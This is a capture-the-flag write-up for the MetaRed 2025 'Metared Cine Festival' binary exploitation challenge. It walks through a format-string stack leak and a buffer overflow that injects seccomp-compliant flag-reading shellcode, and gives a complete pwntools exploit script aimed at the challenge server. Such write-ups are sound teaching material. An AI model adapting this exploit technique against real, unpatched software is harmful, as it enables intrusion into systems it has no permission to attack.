

# Metared Cine Festival - PWN Challenge

## Challenge Information
- **CTF:** MetaRed 2025
- **Category:** Binary Exploitation
- **Challenge:** Metared Cine Festival (Director Easy)
- **Remote:** challs.ctf.cert.unlp.edu.ar:41216

## Binary Protections



```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX unknown - GNU_STACK missing
PIE:      No PIE (0x3fe000)
Stack:    Executable
RWX:      Has RWX segments
```

Key observations:
- **No stack canary** - Buffer overflow protection disabled
- **Executable stack** - We can execute shellcode on the stack
- **No PIE** - Fixed addresses, but we still need to leak stack location
- **RWX segments** - Memory regions with read, write, and execute permissions

## Vulnerability Analysis

The binary has a format string vulnerability that allows us to leak stack addresses, combined with a buffer overflow that lets us control the return address. The executable stack makes this a classic shellcode injection challenge.

### Seccomp Restrictions

The binary implements seccomp filtering to block dangerous syscalls:

```c
__int64 setup_seccomp()
{
  __int64 v1;
  
  v1 = seccomp_init(2147418112);  // SCMP_ACT_ALLOW
  if (!v1) {
    perror("seccomp_init");
    exit(1);
  }
  seccomp_rule_add(v1, 0, 59, 0);   // Block execve (syscall 59)
  seccomp_rule_add(v1, 0, 322, 0);  // Block execveat (syscall 322)
  if ((int)seccomp_load(v1) < 0) {
    perror("seccomp_load");
    seccomp_release(v1);
    exit(1);
  }
  return seccomp_release(v1);
}
```

**Blocked syscalls:**
- `execve` (59) - Cannot spawn shells or execute binaries
- `execveat` (322) - Cannot execute programs via file descriptors

This means traditional shellcode that spawns `/bin/sh` won't work. We must use alternative syscalls like `open`, `read`, and `write` to read the flag file directly.

## Exploitation Strategy

The exploit follows a two-stage approach:

### Stage 1: Information Leak
1. Send `%p` format string to leak a libc/stack address
2. Calculate the base pointer (rbp) location from the leak: `rbp = leaked_address + 0x2c0`

### Stage 2: Shellcode Injection + Return Address Overwrite
1. Inject shellcode at the beginning of our buffer
2. Pad to the correct offset (0x118 bytes)
3. Overwrite the return address with `rbp - 0x110` (pointing to our shellcode)

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *
import time

context.arch = 'amd64'
context.log_level = 'info'

# Load binaries
libc = ELF("./libc.so.6", checksec=False)
binary = ELF("./patched_patched")
p = remote("challs.ctf.cert.unlp.edu.ar", 41216)

# Step 1: Leak libc address via format string
data = b"%p"
p.sendline(data)
p.recvuntil(b"You entered:")
libc_leak_str = p.recvline().strip()

# Parse leaked address
try:
    libc_leak = int(libc_leak_str, 16)
except:
    log.error(f"Failed to parse leak: {libc_leak_str}")
    p.close()
    exit(1)

rbp = libc_leak + 0x2c0
log.info(f"rbp: {hex(rbp)}")

offset = 0x118

# Shellcode to read flag.txt and write to stdout
shellcode = asm(shellcraft.readfile("flag.txt", 1))

print(f"Shellcode: {shellcode.hex()}")
print(f"Length: {len(shellcode)} bytes")

# Build payload
payload = shellcode
payload += b"a" * (offset - len(payload))
payload += p64(rbp - 0x110)  # Overwrite return address

p.sendline(payload)
p.interactive()
```

## Solution Breakdown

### 1. Format String Leak
```python
data = b"%p"
p.sendline(data)
libc_leak = int(p.recvline().strip(), 16)
rbp = libc_leak + 0x2c0
```
The `%p` format specifier leaks a pointer from the stack, which we use to calculate where our buffer is located.

### 2. Shellcode Generation
```python
shellcode = asm(shellcraft.readfile("flag.txt", 1))
```
Using pwntools' `shellcraft`, we generate shellcode that:
- Opens `flag.txt` using the `open` syscall
- Reads its contents using the `read` syscall
- Writes to file descriptor 1 (stdout) using the `write` syscall

**Why not spawn a shell?** The seccomp filter blocks `execve` and `execveat`, so we cannot execute `/bin/sh`. Instead, we use `shellcraft.readfile()` which generates shellcode using only allowed syscalls (`open`, `read`, `write`).

### 3. Buffer Overflow
```python
payload = shellcode
payload += b"a" * (offset - len(payload))
payload += p64(rbp - 0x110)
```
- Place shellcode at the start of the buffer
- Pad to reach the return address (offset 0x118)
- Overwrite return address to point back to our shellcode at `rbp - 0x110`

### 4. Execution Flow
When the vulnerable function returns:
1. The return address is popped from the stack
2. Execution jumps to `rbp - 0x110` (our shellcode location)
3. Shellcode executes, reading and printing the flag

## Flag
The exploit successfully reads and outputs the flag from `flag.txt`.

## Key Takeaways
- Executable stack + no canary = shellcode injection opportunity
- Format string vulnerabilities can leak addresses to defeat ASLR
- Classic ret2shellcode technique still works when protections are weak
- pwntools' shellcraft makes shellcode generation trivial
